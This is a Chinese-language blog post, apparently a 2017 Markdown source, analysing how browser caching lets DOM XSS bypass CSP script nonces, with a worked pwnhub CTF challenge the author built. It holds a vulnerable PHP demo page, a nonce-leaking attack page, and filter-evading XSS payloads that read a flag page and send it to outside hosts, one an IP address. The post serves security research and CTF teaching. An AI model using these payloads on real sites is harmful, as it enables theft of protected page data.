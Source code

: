 ```yaml
---
title: 通过浏览器缓存来bypass CSP script nonce
date: 2017-05-16 17:45:50
tags:
- csp
- pwnhub
---
```




原文被我发在freebuff上
[http://www.freebuf.com/articles/web/133455.html](http://www.freebuf.com/articles/web/133455.html)

最近看了去年google团队写的文章CSP Is Dead, Long Live CSP!，对csp有了新的认识，在文章中，google团队提出了nonce-{random}的csp实现方式，而事实上，在去年的圣诞节，Sebastian 演示了这种csp实现方式的攻击方式，也就是利用浏览器缓存来攻击，事实上，我很早就看到了这篇文章，但是当时并没有看懂，惭愧了，现在来详细分析下。

<!--more-->

# 漏洞分析 #


原文
[http://sirdarckcat.blogspot.jp/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html](http://sirdarckcat.blogspot.jp/2016/12/how-to-bypass-csp-nonces-with-dom-xss.html)

国内的翻译（只有翻译）
[http://paper.seebug.org/166/](http://paper.seebug.org/166/)

首先我需要个demo

首先是实现了nonce script的站，然后包含了因为是利用了浏览器缓存，所以我们不能对页面发起请求，因为发起请求之后，后台就会刷新页面并刷新nonce的字符串，符合条件的只有3种。

1、持久型 DOM XSS，当攻击者可以强制将页面跳转至易受攻击的页面，并且 payload 不包括在缓存的响应中（需要提取）。

2、包含第三方 HTML 代码的 DOM XSS 漏洞（例如，fetch(location.pathName).then(r=>r.text()).then(t=>body.innerHTML=t);）

3、XSS payload 存在于 location.hash 中的 DOM XSS 漏洞（例如 https://victim/xss#!foo?payload=）

这里首先我们需要一个开启了nonce script规则的站，并加入一个xss点

```
/csp/test.php

<?php
function random_string( $length = 8 ) { 
  $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'; 
  $password = ''; 
  for($i = 0; $i < $length; $i++)
  { 
    $password .= $chars[ mt_rand(0, strlen($chars) - 1) ]; 
  } 
  return $password; 
} 

$random = random_string(12);

header('Content-Security-Policy: default-src \'none\'; script-src \'nonce-'.$random .'\';');
header('Cache-Control: max-age=99999999');

?>

<script nonce='<?php echo $random;?>'>document.write('URL ' + unescape(location.href))</script><script nonce='<?php echo $random;?>'>console.log('another nonced script')</script>

```

然后我们需要利用iframe引入这个页面，并对其发起请求获取页面内容，这里我们通过向其中注入一个`<textarea>`标签来吃掉后面的script标签，这样就可以获取内容。

```
attack.php


<iframe id="frame" src="http://127.0.0.1/ctest/csp/test.php#<form method='post' action='http://127.0.0.1/ctest/nonce_receiver.php'><input type='submit' value='test!'><textarea name='nonce'>"></iframe>

<script>
  function getNonce() { 
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "nonce_receiver.php", false);
    xhr.send();
    return xhr.responseText;
  }
 
  setTimeout(pollNonce, 1000);
  function pollNonce() {
    var nonce = getNonce();

    if (nonce == "") {
      setTimeout(pollNonce, 1000);
    } else {
      attack(nonce);
    }
  }

  function attack(nonce) {
    var iframe = document.createElement("iframe");
    var url = "http://127.0.0.1/ctest/csp/test.php#"
    var payload = "<script nonce='" + nonce + "'>alert(document.domain)</scr" + "ipt>"
    var validationPayload = "<script>alert('If you see this alert, CSP is not active')</scr" + "ipt>"
    iframe.src = url + payload + validationPayload;
    document.body.appendChild(iframe);
  }

</script>
```

然后我们需要一个页面去获取nonce字符串，为了反复获得，这里需要开启session。
```
<?php
session_start();

if(!empty($_POST)){
	$message = $_POST['nonce'];
	preg_match('/(nonce=\')\w+\'/', $message, $matches);
	$nonce_number = substr($matches[0], 7, -1);
	$_SESSION['nonce'] = $nonce_number;
	echo $nonce_number;

}else if(!empty($_SESSION['nonce'])){
	echo $_SESSION['nonce'];
}
?>
```

 一切就绪了，唯一的问题就是在nonce script上，由于csp开启的问题，我们没办法自动实现自动提交，也就是攻击者必须要使按钮被点击，才能实现一次攻击。
 
 ![image_1bchpbi9rkcc1rj812s4mt1jo49.png-116.6kB][1]


# nonce绕过实例-pwnhub绝对防御 #

为了研究整个漏洞的限制性，我专门写了一个pwnhub的题目。题目环境大概是这样的。

前台是个聊天版，可以发给任何人，有简单的xss过滤，但是可以随便绕过

![image_1bei38vv318ft1nanss23vpf4e9.png-25.3kB][2]

在admin的聊天版里可以找到后台的信息，通过构造任意xss获得后台地址。

```
Wow, good guys,maybe you want /adminshigesha233e3333/#admin
```

打开看一眼发现敏感信息

![image_1bei3c425lcq9j519p24vmg1hm.png-18.6kB][3]

右键看源码是这样的

![image_1bei3dvii1ut4n0p6l3pjgbpu13.png-22.9kB][4]

存在dom xss，看看返回头还可以发现更多信息。

![image_1bei3ivl41icf9u011vj1sp7o0f1g.png-24.9kB][5]

服务端不但开启了最新版的nonce csp，而且还开启了浏览器缓存

这就让我们有了可乘之机，就如同上面提到的一样，如果我们仅修改location.hash，浏览器不会请求服务器，那么nonce string就不会更换。

那么思路就很清楚了，我们可以在主站构造xss，先开iframe请求admin目录的，获取到nonce值后，再新建一个iframe，添加带有nonce字符串的iframe窗口，执行任意xss

```
<iframe src="/adminshigesha233e3333#a"></iframe>
<scrscriptipt>
window.oonnload=setTimeout(functioonn(){
 var f=document.getElementsByTagName("iframe")[0];
 var
n=f.coonntentWindow.document.getElementsByTagName("scrscriptipt")[0].
getAttribute("noonnce");
 coonnsole.log(n);
 var f2=document.createElement("iframe");
 var u="/adminshigesha233e3333#";
 var p="<scr"+"ipt noonnce='"+n+"'
src='../static/js/jquery.min.js'></scr"+"ipt><scri"+"pt
noonnce='"+n+"'>$.get('/adminshigesha233e3333/flag.php',functioonn(da
ta){top.locatioonn.href='//x.x.x.x/?c='+escape(data)});</scr"+"ipt>";
 f2.src=u+p;
 document.body.appendChild(f2);
},1000);
</scrscriptipt>

```

但是让我回过头来总结下上面的利用条件：

1、目标站开启了缓存机制。

2、目标站同源下存在未被csp保护的存在xss的站点。

但事实上，我们本可以用更简单的方式获得目标站的flag，比如构造一个iframe引入flag.php，然后读iframe内容，在同源的情况下是允许的。

payload如下
```
<iframe src="./adminshigesha233e3333/#<iframe src='./flag.php' id=xss>" id=xss2>

<scscriptript>
functioonn x(){
 var inner =
document.getElementById("xss2").coonntentDocument.getElementById("xss").coonntentDocum
ent.body.innerHTML;
var xml = new XMLHttpRequest();
xml.open('POST', 'http://52.80.63.91/api/addmessage.php', true);
xml.setRequestHeader("Coonntent-type","applicatioonn/x-www-form-urlencoded");
xml.send('to=sss&message='+escape(inner));
};
 setTimeout("x()",2000);
 </scscriptript>
```

那么如果admin站点和xss站点非同源呢？由于同源策略的影响，你不能从父窗口获取子窗口的内容，那么就只能通过点击劫持的方式，来发送请求，payload如前面漏洞分析时讲到的。


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/k8qla98d1zqzmp7jd9p2hth5/image_1bchpbi9rkcc1rj812s4mt1jo49.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/h9y56mw4eqx0w16a9ju4h0i7/image_1bei38vv318ft1nanss23vpf4e9.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/x665kblc6mz1fisgs3ipczcz/image_1bei3c425lcq9j519p24vmg1hm.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/sdexy7qywxsqttqsewa8bkca/image_1bei3dvii1ut4n0p6l3pjgbpu13.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/e6uhrjtjw6ftcnbq0c3t9dd9/image_1bei3ivl41icf9u011vj1sp7o0f1g.png